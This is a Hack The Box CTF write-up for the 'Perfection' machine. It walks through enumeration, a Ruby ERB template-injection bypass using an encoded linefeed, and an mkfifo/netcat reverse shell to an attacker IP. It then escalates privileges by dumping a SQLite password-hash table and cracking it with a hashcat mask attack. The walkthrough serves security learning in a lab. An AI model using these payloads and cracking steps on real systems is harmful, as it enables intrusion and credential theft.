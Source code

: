 ```yaml
---
title:  "Perfection"
---
```


# Perfection - Hack The Box

This is my first CTF write up. 
I hope you like it!

![Cover](/ctf/images/perfection/cover.png)

# Enumeration

Let's start with a basic nmap

```
nmap -sC -sV -p- <IP>
```

We discover that there is 2 open ports

![Ports](/ctf/images/perfection/ports.png)

Going on the website, we discover that there is two browsable pages. We can see that the website is "Powered by WEBrick 1.7.0" at the bottom of the page.

The two pages are :
```
http://10.129.215.133/about
http://10.129.215.133/weighted-grade
```

We launch gobuster :
```
gobuster dir -u http://10.129.215.133 -w SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
```

![gobuster](/ctf/images/perfection/gobuster_result.png)

We launch nikto and whatweb :
```
whatweb http://10.129.215.133
```
![whatweb](/ctf/images/perfection/whatweb_result.png)

whatweb reveals the ruby version.

```
nikto -h http://10.129.215.133
```
![nikto](/ctf/images/perfection/nikto_result.png)

nikto gives a lot of false positive. However, when browsing an inexisting page, we get this error message :

![error](/ctf/images/perfection/error404.png)

A search on Google didn't reveal any exploits available for WEBrick 1.7.0 or Sinatra. However, from the Sinatra documentation, we understand that Sinatra is a DSL for quickly creating web applications in Ruby with minimal effort. With that in mind, my first thought was to exploit a SSTI in Ruby.

Let's look at the calculator.

![calc](/ctf/images/perfection/calc.png)

Let's enter some random data and look at the request in Burp Suite

![calc](/ctf/images/perfection/calc1.png)

![burp](/ctf/images/perfection/burp.png)

We can see that there is a POST request to "/weighted-grade-calc"

When we try to access that webpage, we end up having the same error as when browsing an inexisting page. It's time to launch another gobuster process, but with POST as a method.

```
gobuster dir -m POST -u http://10.129.215.133 -w SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
```

Nothing came out of it.

# Initial Access

The calculator application does some kind of input filtering. It means that if we try something that is not expected as an input, the calculator will send the message "Malicious input blocked". For example, lets try to change the name of the category from "Math" to "Math{" and "Math<". Both were blocked by the calculator.

![burp](/ctf/images/perfection/burp1.png)

However, if we add "%0A", which is a linefeed URL encoded, to "Math", the calculator doesn't detect it as a malicious input. Moreover, the calculator will display the content.

![burp](/ctf/images/perfection/burp2.png)

Using HackTricks, lets try some payloads for Ruby. This payload processed and returned "49" :
```
<%= 7*7 %>
```
However, it had to be URL encoded first :
```
%3c%25%3d%20%37%2a%37%20%25%3e
```
![burp](/ctf/images/perfection/burp3.png)

Let's try a command such as "<%= `ls /` %>". Url encoded it looks like this 
```
%3c%25%3d%20%60%6c%73%20%2f%60%20%25%3e
```

It works !

![burp](/ctf/images/perfection/burp4.png)

I've set up a netcat listener
```
nc -lvnp 9001
```

Using https://www.revshells.com/, I've been able to find a reverse shell that worked for me. Before sending it it needs to be url encoded.

```
<%= `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.61 9001 >/tmp/f` %>
```

We have initial access on the machine, and the user flag is in the home directory of the user.

![shell](/ctf/images/perfection/shell.png)

# Privilege Escalation

The first thing we do is downloading linPEAS from our attacking machine to the target and run it. I like to use "/dev/shm" to store my payloads.

![priv](/ctf/images/perfection/privesc.png)

We notice that Susan is part of the "sudo" group. It means that if we can find her password, we can execute any commands as root.
We also notice that there is a cronjob that start at reboot.
We also find a readable files belonging to root and readable by me but not world readable. It is an e-mail. 
```
/var/mail/susan
```
 Now lets look at the susan home folder.
 
We find the "ruby_app" folder. Nothing can be modified inside that folder. We also find the "Migration". Inside that folder, there is a sqlite3 database file. Let's look into it.

![priv](/ctf/images/perfection/privesc1.png)

We find some hashes.

```
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

We can try to crack theses hashes using hashcat and rockyou. The attempts failed, even if we use the best64 rule. We need to dig deeper.

After digging a little bit on the target, we end up reading the email located in "/var/mail/susan"

![email](/ctf/images/perfection/email.png)

We now have a hint on how to crack the hashes with hashcat. Lets use a mask attack with the hashes that we found previously.

```
hashcat.exe -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d?d --increment
```

It works ! We cracked the susan hash. With the password, we can simply login as root with the "sudo su" command.

![root](/ctf/images/perfection/root.png)